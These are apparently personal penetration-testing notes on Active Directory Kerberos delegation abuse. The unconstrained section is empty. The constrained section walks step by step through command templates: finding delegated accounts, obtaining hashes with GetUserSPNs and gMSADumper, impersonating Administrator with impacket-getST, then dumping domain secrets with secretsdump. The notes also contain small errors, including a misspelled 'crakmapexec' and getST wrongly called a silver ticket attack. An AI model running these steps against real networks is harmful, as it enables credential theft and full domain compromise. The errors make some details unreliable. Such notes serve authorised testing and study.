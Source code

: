# Domain Privesc
---
# Navigation
- **[[#UnContrained delegation]]**
	- [[#Definition]]
- **[[#Constrained delegation]]**
	- [[#Definition]]
	- [[#Attack]]
- **[[#Further reading]]**
>**Important:**
>[[Kerberoas#Synchronizing time is important]]
---
# UnConstrained delegation
## Definition
---
# Constrained delegation
## Definition
Microsoft’s next iteration of delegation included the ability to limit where objects had delegation (impersonation) rights to.  Now a front-end web server that needed to impersonate users to access their data on a database could be restricted;** allowing it to only impersonate users on a specific service & system**.  However, as we will find out, the portion of the ticket that limits access to a certain service is not encrypted.  This gives us some room to gain additional access to systems if we gain access to an object configured with these rights. 
If you can gain access to an account (user or computer) that is configured with constrained delegation.  You can find this by searching for the `TRUSTED_TO_AUTH_FOR_DELEGATION` value in the **UserAccountControl** attribute of AD objects.
## Attack
1. **Identify a target user**
```bash
#Using impacket
impacket-findDelegation <Domain>/<USER>:<PASS>
#Using ldap
ldapdomaindump -u "DOMAIN\\Account" -p <PASS> <IP> && grep TRUSTED_FOR_DELEGATION domain_computers.grep
#Crakmapexec
crakmapexec ldap <IP> -u <Username> -p <PASS> --trusted-for-delegation
#Active Directory module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
2. **Getting the NTLM hash**
```bash
impacket-GetUserSPNs <DOMAIN>/<ConstrainedUser> -dc-ip <IP> -request
python3 gMSADumper.py -u <USER> -p <Password> -l <LDAPDomain> -d <Domain>
```
> **Tool** -> [gMSADumper](https://github.com/micahvandeusen/gMSADumper)

3. **Impersonating with the Silver ticket attack**
```bash
impacket-getST <Doamin>/<ConstrainedUser> -hashes :<HASH>  -spn <DelegationRightsTo> -impersonate Administrator
```
4. **Setting up an environment variable for authentication**
```bash
export KRB5CCNAME=CCACHE_FILE.CCACHE
```
5. **Access services you have the right to.**
```bash
impacket-secretsdump -k <Domain>/Administrator@<DelegationRightsToDomain> -dc-ip <IP> -no-pass
impacket-smbclient -k <Domain>/Administrator@<DelegationRightsToDomain> -dc-ip <IP> -no-pass
```
# Further reading
- Official Docs ->  [Group managed service accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/configure-kerberos-delegation-group-managed-service-accounts)
- Attacks explained (linux) -> [blog.redxorblue](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
- Attacks explained -> [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
- Cheatsheet -> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-unconstrained-delegation)
- gMSA -> [XCT-notes](https://notes.vulndev.io/notes/misc/labs/group-managed-service-accounts-gmsa)